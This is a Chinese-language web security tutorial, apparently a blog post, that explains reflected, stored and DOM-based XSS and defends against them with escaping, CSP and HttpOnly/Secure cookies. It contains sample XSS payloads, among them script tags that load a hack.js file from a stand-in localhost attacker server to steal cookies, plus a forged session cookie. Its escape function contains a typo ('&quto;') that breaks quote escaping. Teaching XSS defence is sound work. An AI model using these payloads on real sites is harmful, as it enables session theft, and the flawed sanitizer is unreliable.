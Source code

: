 ```yaml
---
title: 安全01:XSS攻击
sidebar: 'auto'
date: 2021-11-06
categories:
- 11前端安全
isShowComments: true
---
```







# 什么是XSS攻击

Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行，从而获取用户的敏感信息如 Cookie、SessionID 等

# XSS攻击分类

## 反射型

### 攻击

1.   黑客构造出包含脚本的URL
2.   用户点击URL时，网站服务器就会将脚本从URL中取出，拼接在HTML中返回给浏览器
3.   用户浏览器接受到响应后解析执行，脚本也被执行
4.   脚本就可以窃取用户的数据，发送给黑客的服务器

![截图](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060819994.png)

### 实例

```js
// 普通
http://localhost:3000/?from=china

// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>

// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js">
</script>

// 短域名伪造 https://dwz.cn/

// 伪造cookie入侵 chrome
document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNT
Y1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

### 防范

#### 转义字符

##### 1. 转义用户输入的内容(replace)

```js
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}
```

##### 2. 利用浏览器特性：自动处理特殊字符(innerHTML)

```js
function filterStr(str) {
    const div = document.createElement('div')
    div.textContent = str
    return div.innerHTML
}
filterStr('<div></div>') // &lt;div&gt;&lt;/div&gt;
```

#### CSP

CSP: 本质上就是建立白名单，明确告诉浏览器哪些外部资源可以加载和执行。

使用方式：

1.   设置HTTP Header的Content-Security-Policy

![img](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060858557.jpeg)

```js
Content-Security-Policy: script-src 'self'; object-src 'none';
style-src cdn.example.org third-party.org; child-src https:
```

2.   meta标签

```js
<meta 
http-equiv="Content-Security-Policy" content="script-src 'self'; 
object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
```

上面代码中，CSP做了如下 配置：

-   脚本：只信任当前域名
-   `<object>`标签：不信任任何URL，即不加载任何资源
-   样式表：只信任`cdn.example.org`和`third-party.org`
-   框架（frame）：必须使用HTTPS协议加载
-   其他资源：没有限制

#### 防止脚本读取Cookie

1.   Cookie添加HttpOnly属性，防止脚本读取网站的cookie
2.   Cookie添加Secure属性，只能https协议才能传输cookie, 防止中间人截取传输的cookie

## 存储型

### 攻击步骤

1.   黑客通过论坛发帖、商品评论等途径，将脚本提交到目标网站的数据库中
2.   用户打开网站时，网站服务器将脚本从数据库中取出，拼接在HTML中返回给浏览器
3.   用户浏览器接受响应后解析执行，脚本也被执行
4.   脚本就可以窃取用户数据发送给黑客网站

![截图](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060906009.png)

### 攻击实例

```js
// 评论
<script>alert(1)</script>

// 跨站脚本注入
我来了<script src="http://localhost:4000/hack.js"></script>
```

## DOM型

### 攻击步骤

1.   黑客构造出包含脚本的URL
2.   用户点击URL时，网站服务器就会将脚本从URL中取出，拼接在HTML中返回给浏览器
3.   用户浏览器接受到响应后解析执行，脚本也被执行
4.   脚本就可以窃取用户的数据，发送给黑客的服务器

### 与其他XSS区别

DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

### 实例

例如，黑客构造带有恶意代码的 URL 诱导用户打开 http://www.xxx.com/index.html/?content=，浏览器收到请求后解析之行，如果使用 document.write() 、document.outerHTML 、 .innerHTML未经转义输出，就可能遭到攻击。

![2图](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060916056.png)



# 参考

1.   [前端安全系列（一）：如何防止XSS攻击？](https://juejin.cn/post/6844903685122703367#heading-6)
2.   [浏览器专题系列 - Web安全](https://juejin.cn/post/6926726800793927693)
3.   [Web 安全 - 跨站脚本攻击 XSS 三种类型及防御措施](https://mp.weixin.qq.com/s/7ruF1I94p4Ve3tVDb6096A)
4.   [Content Security Policy 入门教程](http://www.ruanyifeng.com/blog/2016/09/csp.html)





